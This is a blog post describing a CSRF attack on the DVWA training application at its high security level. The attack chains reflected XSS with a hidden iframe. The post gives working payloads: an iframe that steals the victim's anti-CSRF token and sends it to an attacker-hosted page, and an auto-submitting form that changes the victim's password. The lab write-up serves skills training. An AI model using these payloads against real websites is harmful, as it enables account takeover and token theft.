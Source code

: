 ```yaml
---
title: Powerful CRSF exploit with iFrames
layout: post
date: '2019-02-10 11:17:20 -0700'
tags:
- Hacking
- Web
thumbnail: coverhack.svg
comments: true
extract: Gives an elegant CRSF exploitation
---
```


I was training my hacking skills on the DVWA, for the attacks CRSF ( Cross Site Request Forgery ) and I found an elegant way to orchestrate the CRSF attack with iFrames.

## Brief Explanation of CRSF

To make it simple, a CRSF is an attack consisting of making the victim do a request without their consent. To get the idea, it could be a link redirecting to : `http://website_not_protected.com/change_password.php?new_password=hacked.`

Without any protection from the website, a victim clicking on this link would change their password without noticing it. But it is not that easy ( fortunately .. ) and that change_password.php page usually requires you to be logged already. A way for a hacker to counter this would be to insert some code on the website to redirect you to the page without losing your session cookie ( what keeps you logged on the website ). In that perspective, the hacker needs another exploit to insert some code on the website.

## The idea of the iFrames

The iFrames can be used in javascript to open another page, just like this :
{% highlight html %}

<iframe type="hidden" id="iframe" 
src="http://10.6.66.42/dvwa/vulnerabilities/csrf/" 
onload="window.open('//10.6.66.64/index.php">
</iframe>
										 
{% endhighlight %}
										 
There are very powerful as an hacking tool, since they can be invisible for the user. Here, the iFrame opens a website we are hosting ( supposing our IP is 10.6.66.64 ). The idea will be to open such an iFrame by exploiting another breach, and calling our own page that will send a form to change the password of the user.

## The attack

Usually, such an attack requires another weakness on the victim's website. One of the most common exploit that can be used for a CRSF is a XSS. We are going to test our attack on the security high of the DVWA. We need first to prepare our page. We need to send a form to `http://10.6.66.42/dvwa/vulnerabilities/csrf/` that requires a user_token. Here is the page we are going to host :

{% highlight html %}

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <title>Exploit</title>
    <meta name="referrer" content="no-referrer">
    <style type="text/css" media="screen"></style>
  </head>

  <body >
     <form method="GET" action="http://10.6.66.42/dvwa/vulnerabilities/csrf/" target="csrf-frame" id="csrf-form">
        <input type="hidden" name="password_new" value="password">

        <input type="hidden" name="password_conf" value="password">
        <input type="hidden" name="user_token" value="<?php echo $_REQUEST['user_moken'];?>">
        <input type="hidden" name="Change" value="Change">

   </form>
   <Script>document.getElementById("csrf-form").submit();</Script>

  </body>
</html>
{% endhighlight %}

The request will pass only if the value of user_token corresponds to the victim token. So the iFrame will need to grab that value, and give it to our page as paramater ( called moken here ). This value can be collected with the following javascript code on the password change page at `http://10.6.66.42/dvwa/vulnerabilities/csrf/`.

{% highlight javascript %}
var moken = this.contentDocument.getElementsByName('user_token')[0].value
{% endhighlight %}

Putting all together, the idea is to create an iFrame that would request `http://10.6.66.42/dvwa/vulnerabilities/csrf/`, collect the token, and send it to our hosted page within the same iFrame. We can exploit the XSS Reflected page to call our iFrame :

{% highlight html %}

<iframe type="hidden" id="iframe" src="http://10.6.66.42/dvwa/vulnerabilities/csrf/" 
onload="
var moken = this.contentDocument.getElementsByName('user_token')[0].value;
window.open('//10.6.66.64/index.php?user_moken='+moken)
"
 ></iframe>
 
 {% endhighlight %}